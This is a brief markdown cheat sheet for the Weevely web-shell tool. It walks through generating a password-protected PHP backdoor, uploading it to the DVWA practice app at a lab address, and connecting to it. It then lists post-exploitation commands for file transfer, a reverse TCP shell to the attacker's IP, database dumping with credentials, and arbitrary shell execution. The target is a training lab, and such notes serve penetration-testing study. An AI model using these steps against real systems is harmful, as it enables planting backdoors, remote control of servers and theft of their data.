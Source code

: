 # Weevely

## Usage
1. Genrate backdoor in Kali
   - ```weevely generate [password] [file name]```
   -  ```weevely generate 123456 /root/shell.php```
2. Upload in vulnerable app (DVWA-Low)
3. Send a request to uploaded php file (run it)
   - *http://192.168.152.132/dvwa/hackable/uploads/shell.php*
4. Connect to shell from Kali
   - ```weevely [url o file] [password]```
   -  ```weevely http://192.168.152.132/dvwa/hackable/uploads/shell.php```

## Weevely commands
- List weevely functions
  - ```help```
- Help of a specific function 
  - ```[function name] -h```   
- Run weevely functions
  - ```[function name]```
- Download
  - ```file_download -vector [VECTOR] [FileName] -host [HOST] [location to store file]```
- Upload
  - ```file_upload -vector [VECTOR] [location on local machine] [location to store file]```
- Reverse shell
  - ```backdoor_reversetcp -vector [VECTOR] [Your IP] [PORT]```
- Access database
  - ```sql_console```
  - ```sql_dump -vector [VECTOR] -host [HOST] -lpath [location to store data] [DB Name] [username] [password]```
- Other functions
  - ```whoami``` 
  - ``` shell_sh [command]
  - ```shell_sh -v [vector] [command]
